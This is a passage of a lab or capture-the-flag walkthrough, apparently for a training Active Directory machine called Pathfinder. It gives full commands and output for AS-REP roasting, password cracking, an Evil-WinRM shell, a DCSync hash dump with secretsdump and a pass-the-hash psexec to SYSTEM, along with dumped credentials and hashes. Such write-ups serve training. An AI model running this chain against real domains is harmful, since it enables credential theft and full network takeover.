	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:07 PM
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : shield$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

```

And we find the password `Password1234!` for domain user `Sandra`.

## Pathfinder (Kerberos, LDAP, WinRM)

### Enumeration

```
# masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-03-15 01:33:19 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 49664/tcp on 10.10.10.30                                  
Discovered open port 49677/tcp on 10.10.10.30                                  
Discovered open port 3268/tcp on 10.10.10.30                                   
Discovered open port 593/tcp on 10.10.10.30                                    
Discovered open port 49676/tcp on 10.10.10.30                                  
Discovered open port 53/tcp on 10.10.10.30                                     
Discovered open port 49667/tcp on 10.10.10.30                                  
Discovered open port 49698/tcp on 10.10.10.30                                  
Discovered open port 445/tcp on 10.10.10.30                                    
Discovered open port 5985/tcp on 10.10.10.30                                   
Discovered open port 88/tcp on 10.10.10.30                                     
Discovered open port 636/tcp on 10.10.10.30                                    
Discovered open port 49683/tcp on 10.10.10.30                                  
Discovered open port 49717/tcp on 10.10.10.30                                  
Discovered open port 47001/tcp on 10.10.10.30                                  
Discovered open port 3269/tcp on 10.10.10.30                                   
Discovered open port 464/tcp on 10.10.10.30                                    
Discovered open port 49672/tcp on 10.10.10.30                                  
Discovered open port 9389/tcp on 10.10.10.30                                   
Discovered open port 139/tcp on 10.10.10.30                                    
Discovered open port 49666/tcp on 10.10.10.30                                  
Discovered open port 135/tcp on 10.10.10.30                                    
Discovered open port 389/tcp on 10.10.10.30                                    
Discovered open port 49665/tcp on 10.10.10.30               
```

Port 88 is typically associated with Kerberos and port 389 with LDAP,  which indicates that this is a Domain Controller. We note that WinRM is  enabled on port 5985.

```
# python3 bloodhound.py -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
```

Using the credentials we obtained in a previous machine; `sandra:Password1234!`, we can attempt to enumerate Active Directory. We can achieve this using BloodHound. There is a python bloodhound injester, which can be found [here](https://github.com/fox-it/BloodHound.py). It can also be installed using pip: `pip install bloodhound`

```
(root💀kali)-[/home/kali/Documents/tools/BloodHound.py]
└─# python3 bloodhound.py \
-d megacorp.local \
-u sandra -p "Password1234!" \
-gc pathfinder.megacorp.local \
-c all -ns 10.10.10.30
INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 5 users
INFO: Connecting to GC LDAP server: pathfinder.megacorp.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Pathfinder.MEGACORP.LOCAL
INFO: Done in 00M 54S
```

The json files should now be in the working directory, ready to be imported into BloodHound.

```
┌──(root💀kali)-[/home/kali/Documents/tools/BloodHound.py]
└─# ls -l *.json
-rw-r--r-- 1 root root  3222 Mar 14 22:40 computers.json
-rw-r--r-- 1 root root  3243 Mar 14 22:40 domains.json
-rw-r--r-- 1 root root 85362 Mar 14 22:40 groups.json
-rw-r--r-- 1 root root 12521 Mar 14 22:40 users.json
```

**Installing and Starting BloodHound**

First, we need to install neo4j and BloodHound.

```bash
apt install neo4j
apt install bloodhound
```

Next, we need to configure the neo4j service. We can accomplish this by running the following command

```bash
# neo4j console
Directories in use:
  home:         /usr/share/neo4j
  config:       /usr/share/neo4j/conf
  logs:         /usr/share/neo4j/logs
  plugins:      /usr/share/neo4j/plugins
  import:       /usr/share/neo4j/import
  data:         /usr/share/neo4j/data
  certificates: /usr/share/neo4j/certificates
  run:          /usr/share/neo4j/run
Starting Neo4j.
WARNING: Max 1024 open files allowed, minimum of 40000 recommended. See the Neo4j manual.
2021-03-15 02:51:55.277+0000 INFO  Starting...
2021-03-15 02:51:59.058+0000 INFO  ======== Neo4j 4.2.1 ========
2021-03-15 02:52:01.980+0000 INFO  Initializing system graph model for component 'security-users' with version -1 and status UNINITIALIZED
2021-03-15 02:52:02.011+0000 INFO  Setting up initial user from defaults: neo4j
2021-03-15 02:52:02.012+0000 INFO  Creating new user 'neo4j' (passwordChangeRequired=true, suspended=false)
2021-03-15 02:52:02.020+0000 INFO  Setting version for 'security-users' to 2
2021-03-15 02:52:02.024+0000 INFO  After initialization of system graph model component 'security-users' have version 2 and status CURRENT
2021-03-15 02:52:02.031+0000 INFO  Performing postInitialization step for component 'security-users' with version 2 and status CURRENT
2021-03-15 02:52:02.315+0000 INFO  Bolt enabled on localhost:7687.
2021-03-15 02:52:04.037+0000 INFO  Remote interface available at http://localhost:7474/
2021-03-15 02:52:04.039+0000 INFO  Started.

```

You will be then prompted to change your password. Next, we start BloodHound

```bash
bloodhound --no-sandbox
```

Ensure you have a connection to the database; indicated by a ✔️  symbol at the top of the three input fields. The default username is `neo4j` with the password previously set.

Opening BloodHound, we can drag and drop the .json files, and  BloodHound will begin to analyze the data. We can select various  queries, of which some very useful ones are `Shortest Paths to High value Targets` and `Find Principles with DCSync Rights`.

While the latter query returns this:





We can see that the `svc_bes` has `GetChangesAll`  privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.

### Lateral Movement

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). We can check this using a tool such as Impacket's `GetNPUsers`.

```
# git clone https://github.com/SecureAuthCorp/impacket.git
# cd impacket/examples
(root💀kali)-[/home/kali/Documents/tools/impacket/examples]
└─# python3 GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:5fed9e70404f9f3e533da75fc5c8a6e0$feea6f77a795ab07264edf21ebafd039c5699560ef4116548f52ffc426481cb9c7da3bc26577cdf80732e9ddac1e3125d6f51b9c79d4d9f6943a4c9114eff8eeb8571ee07c9a8ae69c0c5235ebc5b0b8a6591eb02257ad04af50bbe0e9ced2311e9c7413bbf70faf43b2d0c64114e5bfbbef8f475df64f9a7d21c981aac73398f330e97f1439829d5f5f28cdd0a3b0d62764e1f46bfd9a1034c72ec5a635dbac32254263a51ac7eb4f3e8b202f25180f5d28a78110030cdba67e6d2c24db91c5946e983082b3f60c7f156d056a83fcb92a4f5eff7ef8bb7ee6fd2f5d71c05847e76022b10640dc5d2cfa06b23f5f93cc
```

We obtain the TGT ticket for the `svc_bes` and save it to a file called `hash`. We can use Hashcat or JTR in conjunction with `rockyou.txt` to obtain the plaintext password `Sheffield19`

```
# echo "$krb5asrep$23$svc_bes@MEGACORP.LOCAL:5fed9e70404f9f3e533da75fc5c8a6e0$feea6f77a795ab07264edf21ebafd039c5699560ef4116548f52ffc426481cb9c7da3bc26577cdf80732e9ddac1e3125d6f51b9c79d4d9f6943a4c9114eff8eeb8571ee07c9a8ae69c0c5235ebc5b0b8a6591eb02257ad04af50bbe0e9ced2311e9c7413bbf70faf43b2d0c64114e5bfbbef8f475df64f9a7d21c981aac73398f330e97f1439829d5f5f28cdd0a3b0d62764e1f46bfd9a1034c72ec5a635dbac32254263a51ac7eb4f3e8b202f25180f5d28a78110030cdba67e6d2c24db91c5946e983082b3f60c7f156d056a83fcb92a4f5eff7ef8bb7ee6fd2f5d71c05847e76022b10640dc5d2cfa06b23f5f93cc" > hash

# john hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:23 DONE (2021-03-14 23:45) 0.04277g/s 453507p/s 453507c/s 453507C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

It is now possible to access the server as `svc_bes` using WinRM, and gain user.txt.

```
# gem install evil-winrm

# evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19
Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> whoami
megacorp\svc_bes
```

### Privilege Escalation

In order to leverage the `GetChangesAll` permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users.

```
┌──(root💀kali)-[/home/kali/Documents/tools/impacket/examples]
└─# python3 secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:a7c5b1140bf9e5fe8cd2f8eff51331b8:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:0d0ebf46ef310c3420ef62aa0f45ca0a0f58df3ec851c251e10b86de3d64e22a
PATHFINDER$:aes128-cts-hmac-sha1-96:f98eb6ab885be55f0e5aa2cc267c4ca1
PATHFINDER$:des-cbc-md5:a23bad805b2525ea
[*] Cleaning up... 
```

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use  Impacket's psexec.py.

```
┌──(root💀kali)-[/home/kali/Documents/tools/impacket/examples]
└─# python3 psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file YThJDZyj.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service QedB on 10.10.10.30.....
[*] Starting service QedB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

